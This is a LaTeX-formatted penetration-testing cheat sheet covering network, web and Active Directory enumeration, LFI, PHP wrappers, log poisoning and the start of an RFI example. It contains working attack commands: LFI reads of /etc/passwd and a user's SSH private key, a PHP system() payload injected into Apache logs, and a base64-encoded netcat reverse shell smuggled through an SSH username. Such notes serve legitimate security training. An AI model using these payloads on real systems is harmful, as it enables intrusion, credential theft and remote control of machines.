\hypertarget{enumerate-ports-with-nmap-with-the-ipv6-address}{%
\subsection*{Enumerate ports with nmap with the ipv6 address}\label{enumerate-ports-with-nmap-with-the-ipv6-address}}
\addcontentsline{toc}{subsection}{Enumerate ports with nmap with the ipv6 address}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn -6 dead:beef::0250:56ff:feb9:dbf3}
\end{Highlighting}
\end{Shaded}

\hypertarget{display-ipv6-web-app-on-the-web-browser}{%
\subsection*{Display ipv6 web app on the web browser}\label{display-ipv6-web-app-on-the-web-browser}}
\addcontentsline{toc}{subsection}{Display ipv6 web app on the web browser}

In order to display a web app from an ipv6 address you have to put the ipv6 address between brackets: \texttt{{[}dead:beef::250:56ff:feb9:dbf3{]}}

\hypertarget{pass-from-mac-address-to-ipv6-link-local-address}{%
\subsection*{Pass from MAC address to IPV6 link local address}\label{pass-from-mac-address-to-ipv6-link-local-address}}
\addcontentsline{toc}{subsection}{Pass from MAC address to IPV6 link local address}

When you find a MAC address, it's possible, following a procedure to convert this address to the IPv6 link-local address.

In the following example we will convert the MAC address 11:22:33:44:55:66

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Convert the first octet (11) from hexadecimal to binary

  \begin{itemize}
  \tightlist
  \item
    \textbf{11}:22:33:44:55:66\\
  \item
    11 -\textgreater{} 0001 0001\\
  \end{itemize}
\item
  Invert the 7th bit (if it's 0 put 1, if it's 1 put 0)

  \begin{itemize}
  \tightlist
  \item
    0001 00\textbf{0}1 -\textgreater{} 0001 00\textbf{1}1\\
  \end{itemize}
\item
  Convert the octet back into hexadecimal

  \begin{itemize}
  \tightlist
  \item
    0001 -\textgreater{} 1\\
  \item
    0011 -\textgreater{} 3\\
  \item
    \textbf{0001 0011 -\textgreater{} 13}\\
  \end{itemize}
\item
  Replace the original first octet with the newly converted one

  \begin{itemize}
  \tightlist
  \item
    \textbf{11}:22:33:44:55:66 -\textgreater{} \textbf{13}:22:33:44:55:66\\
  \end{itemize}
\item
  Add \textbf{ff:fe} to the middle of the new MAC address

  \begin{itemize}
  \tightlist
  \item
    13:22:33:\textbf{ff:fe}:44:55:66\\
  \end{itemize}
\item
  Add \textbf{dead:beef::} to the beginning of the address

  \begin{itemize}
  \tightlist
  \item
    \textbf{dead:beef::}13:22:33:ff:fe:44:55:66\\
  \end{itemize}
\item
  group everything by 4 hex digits

  \begin{itemize}
  \tightlist
  \item
    dead:beef::1322:33ff:fe44:5566
  \end{itemize}
\end{enumerate}

\begin{quote}
{[}!{]} Note: In some documentation they talk about putting \textbf{fe80::} instead of \textbf{dead:beef::} but seams to be the same.
\end{quote}

\hypertarget{web-enumeration}{%
\chapter*{Web Enumeration}\label{web-enumeration}}
\addcontentsline{toc}{chapter}{Web Enumeration}

\hypertarget{check-if-web-app-is-under-a-waf}{%
\section*{Check if web app is under a WAF}\label{check-if-web-app-is-under-a-waf}}
\addcontentsline{toc}{section}{Check if web app is under a WAF}

A \textbf{WAF} is a type of firewall for web application that filter or block the HTTP trafic. Checking if the web app have a WAF
is the first thing to check before trying to bruteforce the webapp with fuzzers or specific webapps analyzer like WPScan for example.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wafw00f}\NormalTok{ http://}\OperatorTok{<}\NormalTok{ip_address}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{nmap-http-scripting}{%
\section*{Nmap http scripting}\label{nmap-http-scripting}}
\addcontentsline{toc}{section}{Nmap http scripting}

Nmap have a list of scripts that can be use to enumerate services. In the case of web enumeration,
if the port 80 or if http or https are recognize during the server enumeration, attackers can use nmap with the
http-enum script

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --script http-enum -p}\OperatorTok{<}\NormalTok{port}\OperatorTok{>} \OperatorTok{<}\NormalTok{ip}\OperatorTok{>}\NormalTok{ -oN webScan}
\end{Highlighting}
\end{Shaded}

\hypertarget{whatweb}{%
\section*{Whatweb}\label{whatweb}}
\addcontentsline{toc}{section}{Whatweb}

Whatweb is a tool that allows attackers to know wich kind of technology the web server is using. It's a simple command line tool
that can be used as following:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://}\OperatorTok{<}\NormalTok{ip}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[} ! {]} Note: don't forget to put \url{http://} or \url{https://} before the ip or the domain name.
\end{quote}

\hypertarget{create-a-dictionary-with-the-elements-in-a-website}{%
\section*{Create a dictionary with the elements in a website}\label{create-a-dictionary-with-the-elements-in-a-website}}
\addcontentsline{toc}{section}{Create a dictionary with the elements in a website}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{cewl}\NormalTok{ -w dictionary.txt http://}\OperatorTok{<}\NormalTok{ip}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{fuzzing-with-wfuzz}{%
\section*{Fuzzing with WFUZZ}\label{fuzzing-with-wfuzz}}
\addcontentsline{toc}{section}{Fuzzing with WFUZZ}

\textbf{WFUZZ} is a fuzzing tool that allows attacker to find routes or subdomains of a webapp. this tool needs a dictionary to be used.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Get Method

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{# for directory listing}
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://loalhost.com/FUZZ}

\CommentTok{# for fuzzing with extensions}
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extentions.txt http://localhost.com/FUZZ.FUZ2Z}

\CommentTok{# for subdomain listing}
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 --hw=28,73 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H }\StringTok{"Host: FUZZ.localhost.com http://loalhost.com}
\end{Highlighting}
\end{Shaded}

  \begin{itemize}
  \tightlist
  \item
    -c for colorized mode
  \item
    --hc=404 for omiting routes where response is 404
  \item
    -t 200 is for giving threads number
  \item
    --hw for not taking care of word number return
  \item
    --hh=73 for not taking care of characters with 73 as return number
  \end{itemize}
\item
  Post Method

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c --hc=404 -w /opt/Seclists/usernames/top-usernames-shortlist.txt -X POST -d }\StringTok{'user=FUZZ&pass=FUZZ&action=login'}\NormalTok{ http:localhost.htb/action.php}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{fuzzing-with-dirbuster}{%
\section*{Fuzzing with Dirbuster}\label{fuzzing-with-dirbuster}}
\addcontentsline{toc}{section}{Fuzzing with Dirbuster}

\textbf{Dirbuster} is a fuzzing tool that allows attacker to find routes or subdomains of a webapp. this tool is a GUI tool.

\hypertarget{fuzzing-with-dirb}{%
\section*{Fuzzing with Dirb}\label{fuzzing-with-dirb}}
\addcontentsline{toc}{section}{Fuzzing with Dirb}

\textbf{wfuzz} is a fuzzing tool that allows attacker to find routes or subdomains of a webapp. this tool needs a dictionary to be used.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Get Method

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{# for directory listing}
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://loalhost.com/FUZZ}

\CommentTok{# for subdomain listing}
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 --hw=28,73 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H }\StringTok{"Host: FUZZ.localhost.com http://loalhost.com}
\end{Highlighting}
\end{Shaded}

  \begin{itemize}
  \tightlist
  \item
    -c for colorized mode
  \item
    --hc=404 for omiting routes where response is 404
  \item
    -t 200 is for giving threads number
  \item
    --hw for not taking care of word number return
  \item
    --hh=73 for not taking care of characters with 73 as return number
  \end{itemize}
\item
  Post Method

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c --hc=404 -w /opt/Seclists/usernames/top-usernames-shortlist.txt -X POST -d }\StringTok{'user=FUZZ&pass=FUZZ&action=login'}\NormalTok{ http:localhost.htb/action.php}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{wpscan-for-wordpress-webapps}{%
\section*{WPScan for wordpress webapps}\label{wpscan-for-wordpress-webapps}}
\addcontentsline{toc}{section}{WPScan for wordpress webapps}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wpscan}\NormalTok{ --help}

\ExtensionTok{wpscan}\NormalTok{ --url http://}\OperatorTok{<}\NormalTok{address}\OperatorTok{>}\NormalTok{ -e vp,u}
\end{Highlighting}
\end{Shaded}

\hypertarget{inspect-ssl-certificate}{%
\section*{Inspect SSL certificate}\label{inspect-ssl-certificate}}
\addcontentsline{toc}{section}{Inspect SSL certificate}

It's possible to check SSL certificate with the \textbf{openssl tool} in order to see if the server is applying virtual hosting.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{openssl}\NormalTok{ s_client -connect 10.10.10.10:443}
\end{Highlighting}
\end{Shaded}

\hypertarget{use-curl-to-retrieve-user-or-information-in-the-webapp}{%
\section*{Use curl to retrieve user or information in the webapp}\label{use-curl-to-retrieve-user-or-information-in-the-webapp}}
\addcontentsline{toc}{section}{Use curl to retrieve user or information in the webapp}

Imagine that a web page have a list of potential users. To create a user file that will help us for bruteforcing with users,
curl is a perfect tool to do it.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.10/users.php"} \KeywordTok{|} \FunctionTok{grep} \StringTok{"user-container"} \KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $3\}'}\NormalTok{ FS=}\StringTok{">"} \KeywordTok{|} \FunctionTok{cut}\NormalTok{ -d }\StringTok{'<'}\NormalTok{ -f 1 }\OperatorTok{>}\NormalTok{ users.txt}
\end{Highlighting}
\end{Shaded}

\hypertarget{steganography}{%
\chapter*{Steganography}\label{steganography}}
\addcontentsline{toc}{chapter}{Steganography}

\hypertarget{look-at-info-with-file}{%
\section*{Look at info with file}\label{look-at-info-with-file}}
\addcontentsline{toc}{section}{Look at info with file}

file image.jpg

steghide image.jpg

exiftool image.jpg

strings image.jpg

\hypertarget{active-directory-windows-machines}{%
\chapter*{Active Directory \& Windows Machines}\label{active-directory-windows-machines}}
\addcontentsline{toc}{chapter}{Active Directory \& Windows Machines}

\hypertarget{interesting-windows-ports}{%
\section*{Interesting Windows ports}\label{interesting-windows-ports}}
\addcontentsline{toc}{section}{Interesting Windows ports}

\begin{itemize}
\tightlist
\item
  88 Kerberos
\item
  139 NetBIOS session service
\item
  445 Server Message Block \textbf{SMB}
\item
  389 LDAP
\item
  1433 ms-sql
\item
  5985-5986 WinRM
\end{itemize}

\begin{quote}
{[}!{]} NOTE: NetBIOS session service facilitates authentication aross a windows workgroup or domain and provides access to resources (such as files and printers)
\end{quote}

\hypertarget{map-samba-exposed-shared-resources-with-smbmap}{%
\section*{Map SAMBA exposed shared resources with smbmap}\label{map-samba-exposed-shared-resources-with-smbmap}}
\addcontentsline{toc}{section}{Map SAMBA exposed shared resources with smbmap}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.10 -u }\StringTok{" "}\NormalTok{ -p }\StringTok{" "}
\end{Highlighting}
\end{Shaded}

\hypertarget{smb-connection-with-smbclient-and-smbmap}{%
\section*{SMB connection with smbclient and smbmap}\label{smb-connection-with-smbclient-and-smbmap}}
\addcontentsline{toc}{section}{SMB connection with smbclient and smbmap}

\textbf{smbclient} is a tool that allows attacker to enumerate and list the shared resources of a machine that have the smb service on.
You can start by using smbclient with a Null session by using the \texttt{-N} argument

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbclient}\NormalTok{ -L 10.10.10.10 -N}
\end{Highlighting}
\end{Shaded}

As soon as you have listed those resources you can use \textbf{smbmap} to check the access, read or write rights that you have. You can also
specify the Null session by using the \texttt{-u\ \textquotesingle{}null\textquotesingle{}} argument

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.10 -u }\StringTok{'null'}
\end{Highlighting}
\end{Shaded}

As soon as you find a resource that you can access, you can use \textbf{smbclient} to connect to it. Again you can use the \texttt{-N} argument to tell
smbclient that you want to connect without asking for credentials.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbclient}\NormalTok{ //10.10.10.10/}\OperatorTok{<}\NormalTok{Accessible resource}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[}!{]} NOTE: smbclient don't provide you a shell but a tool. \textbf{get filename.txt} allows you to download a resource if you are connected
\end{quote}

If you see that you have access to the desired resource, you can mount the shared directory to your attacker machine.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{mkdir}\NormalTok{ /mnt/smbvictim}
\FunctionTok{mount}\NormalTok{ -t cifs }\StringTok{"//10.10.10.10/<Accessible resource>"}\NormalTok{ /mnt/smbvictim}
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[}!{]} NOTE: A mounted partition is not a download of victim folders and file. That's only an access pass. Type \texttt{unmount\ /mnt/smbmounted} to close the
mounted share.
\end{quote}

One interesting point with smb is that there is some specified rights at the smb level that can varied. That means that it's not because the
shared resource is on READ ONLY mode that all the folders that this resource contains can not have a write right. You can check if some repository of
this resource are writable with the \textbf{smbcacls} tool. The interesting right that we want to check is the Everyone.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbcacls} \StringTok{"10.10.10.10/<Accessible resource>"}\NormalTok{ Users/amanda -N}
\end{Highlighting}
\end{Shaded}

The output will look as following:

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/cacls-read} \caption{smbcacls read right}\label{fig:unnamed-chunk-3}
\end{figure}

It's interesting to mount the resource in the attacker machine because can do a one liner loop to check multiple folders rights filtering the information
by the Everyone key word.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /mnt/smbvictim/Users}
\FunctionTok{ls}\NormalTok{ -l }\KeywordTok{|} \FunctionTok{awk} \StringTok{'NF\{print $NF\}'} \KeywordTok{|} \KeywordTok{while} \BuiltInTok{read} \VariableTok{directory}\NormalTok{; }\KeywordTok{do} \BuiltInTok{echo}\NormalTok{ -e }\StringTok{"\textbackslash{}n[+] Directory }\VariableTok{$directory}\StringTok{; smbcacls "}\NormalTok{10.10.10.10/}\OperatorTok{<}\NormalTok{Accessible resource}\OperatorTok{>}\StringTok{" Users/}\VariableTok{$directory}\StringTok{ -N | grep -i everyone ; done}
\end{Highlighting}
\end{Shaded}

If you find a directory that have writable rights, something that can be intersting to check is that if you create a file in it, is somebody
manipulating it (remove it, writing on it, removing his content etc.). If it's the case, attacker have a way of stolling the hash NTLMv2 with
malicious \textbf{scf} file

\hypertarget{enumerate-machines-and-check-user-validity-by-samba-with-cme}{%
\section*{Enumerate machines and check user validity by SAMBA with CME}\label{enumerate-machines-and-check-user-validity-by-samba-with-cme}}
\addcontentsline{toc}{section}{Enumerate machines and check user validity by SAMBA with CME}

\textbf{CrackMapExec} (a.k.a \textbf{CME}) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{cme}\NormalTok{ smb 192.168.0.0/24}
\end{Highlighting}
\end{Shaded}

\textbf{CME} can also enumerate a single machine,

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{cme}\NormalTok{ smb 10.10.10.10}
\end{Highlighting}
\end{Shaded}

If we have credentials of a user, you can use \textbf{CME} to check the validity of a user. If the user with the password exists, the tool will
write a red plus sign, if not, a minus sign. And if the user exists and this one have admin priviledges on machines, \textbf{CrackMapExec} will
return a red plus sign and you will see a (Pwn3d!) in the result.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{cme}\NormalTok{ smb 10.10.10.10 -u }\StringTok{'user'}\NormalTok{ -p }\StringTok{'password1'}
\end{Highlighting}
\end{Shaded}

\hypertarget{sniffing-traffic-for-samba-relay-with-responder}{%
\section*{Sniffing traffic for SAMBA Relay with responder}\label{sniffing-traffic-for-samba-relay-with-responder}}
\addcontentsline{toc}{section}{Sniffing traffic for SAMBA Relay with responder}

When SAMBA is created, by default SAMBA cert is not signed. That means that by default it's not possible to validate the origin legitimity.
In this case Attacker can use tools like responder in order to sniff SAMBA communication traffic.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /usr/share/responder}
\CommentTok{# config file is in Responder.conf}
\ExtensionTok{python3}\NormalTok{ Responder.py -I eth0 -rdw}
\end{Highlighting}
\end{Shaded}

As soon as a connection is launched, you can see the communication. And because the SAMBA is not signed you can then get the \textbf{Hash Net-NTLMv2} of users.

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/ad-hashnetntlmv2} \caption{Hash Net-NTLMv2 Sniffing}\label{fig:unnamed-chunk-4}
\end{figure}

What attacker can do with this hash?

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  copy hashes in a file (\emph{hashes})
\item
  bruteforce hashes file with john
  \texttt{bash\ \ john\ -\/-wordlist=/usr/share/wordlists/rockyou.txt\ hashes}
\end{enumerate}

\hypertarget{rpc-connection-with-rpcclient}{%
\section*{RPC connection with rpcclient}\label{rpc-connection-with-rpcclient}}
\addcontentsline{toc}{section}{RPC connection with rpcclient}

\textbf{Remote Procedure Call} aka \textbf{RPC} is a network protocol that allows to make calls of precedures on an external computer with an
application server. This protocol is used in a client-server model in order to ensure the communication between the client, the server and
between possible intermediaries.

In the enumeration phase, attacker can check if it's possible to connect with a null session using the \textbf{rpcclient} with the \texttt{-U\ ""} arguments

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{""}\NormalTok{ 10.10.10.10 -N}
\end{Highlighting}
\end{Shaded}

The connection with a valid user will be done as following

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{"user%password"}\NormalTok{ 10.10.10.10 -c }\OperatorTok{<}\NormalTok{command}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

Interesting command to execute with rpcclient are:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{"user%password"}\NormalTok{ 10.10.10.10 -c }\StringTok{'enumdomusers'}
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{"user%password"}\NormalTok{ 10.10.10.10 -c }\StringTok{'enumdomgroups'}
\CommentTok{# get the rid of domain admins -> 0x200 in this example}
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{"user%password"}\NormalTok{ 10.10.10.10 -c }\StringTok{'querygroupmem 0x200'}
\CommentTok{# get the rid of the users -> 0x1f4 for example}
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{"user%password"}\NormalTok{ 10.10.10.10 -c }\StringTok{'queryuser 0x1f4'}

\end{Highlighting}
\end{Shaded}

\hypertarget{enumerate-ldap-service-with-nmap}{%
\section*{Enumerate ldap service with nmap}\label{enumerate-ldap-service-with-nmap}}
\addcontentsline{toc}{section}{Enumerate ldap service with nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ .nse }\KeywordTok{|} \FunctionTok{grep} \StringTok{"ldap"}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --script ldap}\DataTypeTok{\textbackslash{}*}\NormalTok{ 10.10.10.10 -oN ldapScan}
\end{Highlighting}
\end{Shaded}

\hypertarget{part-vulnerabilies-assessment}{%
\part{Vulnerabilies Assessment}\label{part-vulnerabilies-assessment}}

\hypertarget{searching-for-exploits}{%
\chapter*{Searching for exploits}\label{searching-for-exploits}}
\addcontentsline{toc}{chapter}{Searching for exploits}

\hypertarget{exploit-database}{%
\section*{Exploit database}\label{exploit-database}}
\addcontentsline{toc}{section}{Exploit database}

Exploit database or exploit-db is a website where attackers can find exploits over services in a specific version.

\href{https://www.exploit-db.com/}{exploit-db website}

\hypertarget{searchsploit}{%
\section*{Searchsploit}\label{searchsploit}}
\addcontentsline{toc}{section}{Searchsploit}

\textbf{Searchsploit} is a command line tool directly binded to exploits-db.com that helps attacker find exploits over services in a specific version.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit} \OperatorTok{<}\NormalTok{service name + version}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{web-vulneratilities}{%
\chapter*{Web Vulneratilities}\label{web-vulneratilities}}
\addcontentsline{toc}{chapter}{Web Vulneratilities}

\hypertarget{lfi-local-file-inclusion}{%
\section*{LFI (Local File inclusion)}\label{lfi-local-file-inclusion}}
\addcontentsline{toc}{section}{LFI (Local File inclusion)}

/etc/passwd
/etc/group

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s }\StringTok{"http://localhost/example.php?file=/etc/passwd"} \KeywordTok{|} \FunctionTok{grep} \StringTok{"sh$"}
\ExtensionTok{curl}\NormalTok{ -s }\StringTok{"http://localhost/example.php?file=/home/looping/.ssh/id_rsa"}
\end{Highlighting}
\end{Shaded}

/proc/shed\_debug
/proc/net/fib\_trie

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s }\StringTok{"http://localhost/example.php?file=/proc/net/fib_trie"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -i }\StringTok{"host local"}\NormalTok{ -B 1 }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'\textbackslash{}d\{1,3\}.\textbackslash{}d\{1,3\}.\textbackslash{}d\{1,3\}.\textbackslash{}d\{1,3\}'} \KeywordTok{|} \FunctionTok{sort}\NormalTok{ -u}
\end{Highlighting}
\end{Shaded}

/proc/net/tcp

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{for} \ExtensionTok{port}\NormalTok{ in }\VariableTok{$(}\ExtensionTok{curl}\NormalTok{ -s }\StringTok{"http://localhost/example.php?file=/proc/net/tcp"} \KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $2\}'} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v }\StringTok{"local_address"} \KeywordTok{|} \FunctionTok{awk}\NormalTok{ -F }\StringTok{':'} \StringTok{'\{print $2\}'} \KeywordTok{|} \FunctionTok{sort}\NormalTok{ -u}\VariableTok{)}\KeywordTok{;} \KeywordTok{do} \BuiltInTok{echo} \StringTok{"[}\VariableTok{$port}\StringTok{] -> Port number }\VariableTok{$(}\BuiltInTok{echo} \StringTok{"ibase=16; }\VariableTok{$port}\StringTok{"} \KeywordTok{|} \FunctionTok{bc}\VariableTok{)}\StringTok{; done}

\StringTok{lsof -i:<port>}
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[} ! {]} Note: Be carefull to path traversal ?file=/../../../../../../../etc/passwd\\
{[} ! {]} Note: Try also null byte and interogation at the end (\%00 or ?) at the end -\textgreater{} ../../../etc/passwd\%00 or ../../../etc/passwd?
\end{quote}

Chrome check file as raw Ctrl+u

\hypertarget{wrappers}{%
\section*{Wrappers}\label{wrappers}}
\addcontentsline{toc}{section}{Wrappers}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s }\StringTok{"http://localhost/example.php?file=file:///etc/passwd"}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s }\StringTok{"http://localhost/example.php?file=php://filter/convert.base64-encode/resource=example2.php"}

\BuiltInTok{echo} \StringTok{"<base64 code>"} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d}\KeywordTok{;} \BuiltInTok{echo}
\end{Highlighting}
\end{Shaded}

\hypertarget{log-poisoning}{%
\section*{Log Poisoning}\label{log-poisoning}}
\addcontentsline{toc}{section}{Log Poisoning}

Log Poisoning allows user to execute command remote system using logs files. This technic comes basicaly after finding a LFI
vulnerability and is used for gaining access to the victim system by generating a reverse shell.

\hypertarget{apache2}{%
\subsection*{Apache2}\label{apache2}}
\addcontentsline{toc}{subsection}{Apache2}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s }\StringTok{"http://localhost/example.php?file=/var/log/apache2/access.log"}

\ExtensionTok{curl}\NormalTok{ -s -H }\StringTok{"User-Agent: <?php system('whoami'); ?> "}\NormalTok{http://localhost/example.php?file=/var/log/apache2/access.log}\StringTok{"}
\end{Highlighting}
\end{Shaded}

\hypertarget{ssh-logs}{%
\subsection*{ssh logs}\label{ssh-logs}}
\addcontentsline{toc}{subsection}{ssh logs}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s }\StringTok{"http://localhost/example.php?file=/var/log/auth.log"}
\BuiltInTok{echo} \StringTok{"nc -e /bin/bash 127.0.0.1 443"} \KeywordTok{|} \ExtensionTok{base64}\KeywordTok{;} \BuiltInTok{echo}

\CommentTok{#output}
\ExtensionTok{bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMSA0NDMK}


\FunctionTok{ssh} \StringTok{'<?php system("echo bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMSA0NDMK | base64 -d | bash"); ?>'}\NormalTok{@127.0.0.1}
\end{Highlighting}
\end{Shaded}

\hypertarget{rfi-remote-file-inclusion}{%
\section*{RFI (Remote File inclusion)}\label{rfi-remote-file-inclusion}}
\addcontentsline{toc}{section}{RFI (Remote File inclusion)}

\textbf{RFI} is a vulnerability similar to the \textbf{LFI} but using a necessary third part. Instead of looking for internal files,
\textbf{RFI} vulnerability allows the system or the service to look also, throw internet, of files from services located in an external
Server.

Let's take the example of an existing RFI vulnerability from \emph{gwolle-gb} wordpress plugin:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c --hc=404 -w /opt/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://127.0.0.1/fuzz}

\CommentTok{#Output}
\ExtensionTok{Payload}\NormalTok{ : }\StringTok{"wp-content/plugins/gwolle-gb"}

\ExtensionTok{searchsploit}\NormalTok{ gwolle}
\CommentTok{#Output}
\ExtensionTok{WordPress}\NormalTok{ Plugin Gwolle Guestbook 1.5.3 - Remote File inclusion  }\KeywordTok{|}  \ExtensionTok{php/webapps/38861.txt}

\ExtensionTok{searchsploit}\NormalTok{ -x php/webapps/388861.txt}
\CommentTok{#Output}
